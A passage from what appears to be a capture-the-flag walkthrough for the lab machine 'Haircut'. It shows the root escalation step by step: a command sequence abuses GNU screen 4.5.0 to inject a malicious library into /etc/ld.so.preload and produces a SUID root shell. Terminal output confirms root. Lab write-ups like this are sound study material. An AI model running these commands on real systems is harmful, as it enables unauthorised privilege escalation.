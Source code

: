     
    
    www-data@haircut:/tmp$ cd /etc/
    www-data@haircut:/etc$ umask 000
    www-data@haircut:/etc$ screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" 
    

At this point, `ld.so.preload` should have the reference to `/tmp/libhax.so`
(along with some other junk):

    
    
    www-data@haircut:/etc$ cat ld.so.preload
    ' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
    
    /tmp/libhax.so
    

Now I’ll get root to run something by running `screen -ls`:

    
    
    www-data@haircut:/etc$ screen-4.5.0 -ls
    No Sockets found in /tmp/screens/S-www-data.
    

`ld.so.preload` has been cleaned up:

    
    
    www-data@haircut:/etc$ ls ld.so.preload
    ls: cannot access 'ld.so.preload': No such file or directory
    

And the `rootshell` is now SUID:

    
    
    www-data@haircut:/etc$ ls -l /tmp/rootshell 
    -rwsr-xr-x 1 root root 16824 Sep  4 04:23 /tmp/rootshell
    

I can get a shell as root:

    
    
    www-data@haircut:/etc$ /tmp/rootshell 
    # id
    uid=0(root) gid=0(root) groups=0(root),33(www-data)
    

And print `root.txt`:

    
    
    root@haircut:/root# cat root.txt
    4cfa26d8************************
    

## Beyond Root

A quick check to see what the filtering actually was in `exposed.php`. The
entire script was pretty short:

